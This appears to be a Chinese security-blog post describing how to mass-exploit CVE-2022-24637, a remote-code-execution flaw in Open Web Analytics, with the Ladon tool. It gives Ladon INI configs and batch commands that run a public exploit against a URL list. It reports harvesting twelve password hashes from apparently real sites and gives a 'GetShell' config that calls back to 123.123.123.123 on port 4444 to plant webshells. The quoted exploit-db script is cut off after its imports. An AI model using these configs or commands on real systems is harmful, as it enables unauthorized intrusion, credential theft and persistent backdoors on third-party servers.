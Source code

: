#  【漏洞速递】未授权RCE漏洞（附PoC）   
 LemonSec   2024-08-07 15:09  
  
本文主要教大家如何配置Ladon的INI插件，实现快速批量验证POC。该漏洞除了练手或提交SRC，可能没什么用，OWA登陆界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW4YiacmZnh0zcjCFGfthUeZe6KNAUMU4PU1XoJSHQQnGFghmZSicRDkkcvKIGqLDAYCnG7Gt8Qewbxg/640?wx_fmt=png&wxfrom=13&tp=wxpic "")  
  
**Ladon插件 CVE-2022-24637.ini**  
  
INI插件最大的优势在于，可调用任意语言编写的POC，就是说在没有源码的情况下也可以，只要知道如何使用POC，然后填写参数，设置URL变量或IP变量即可  
。当别人放出POC时，我们只需要验证出一个成功的，即可Ladon批量****  
```
[Ladon]
exe=python
arg=CVE-2022-24637.py $ip$ -c
log=true
```  
  
**批量命令**  
```
Ladon url.txt cve-2022-24637
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW4YiacmZnh0zcjCFGfthUeZenBoaaQ0QjkrQibibYf3jOT3le62CnYHy07NzDIRC96X385BE03ENEesA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
由于本地没搭有环境，EXP也是github上找的，并不知道成功是怎样的，所以没有重定向，先让Ladon跑一些URL，成功如上图所示，检测出漏洞时同时返回密码HASH，当然也有一些有漏洞但无法获取HASH的。重定向后，稍等一分钟，就自动获取了12个密码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW4YiacmZnh0zcjCFGfthUeZeIEmUJVfMcVvCfYjDXd559YtNLoH0wE5XMvXfF60963vWKosia6icmAPg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
查看密码对应URL，再使用EXP写入webshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW4YiacmZnh0zcjCFGfthUeZe7ia77w2k1UJibwuQ394WiatthaYZsH27SMJOtD0ib4RkZncHLMGXBahTHg/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**批量GetShell配置**  
```
[Ladon]
exe=python
arg=CVE-2022-24637.py $ip$ -i 123.123.123.123 -p 4444 -u admin
log=true
```  
  
webshell是随机地址，我们可以重定向输出结果  
```
Ladon url.txt GetShell.ini > shell.txt
```  
  
  
PS: 与Ladon联动的最佳Poc为.net编写的程序或DLL，可使用LadonEXP一键生成大部份WEB相关POC，非WEB洞需自己编写。  
  
  
PoC地址: https://www.exploit-db.com/exploits/51026  
```
# Exploit Title: Open Web Analytics 1.7.3 - Remote Code Execution (RCE)
# Date: 2022-08-30
# Exploit Author: Jacob Ebben
# Vendor Homepage: https://www.openwebanalytics.com/
# Software Link: https://github.com/Open-Web-Analytics
# Version: <1.7.4
# Tested on: Linux 
# CVE : CVE-2022-24637

import argparse
import requests
import base64
import re
import random
import string
import hashlib
```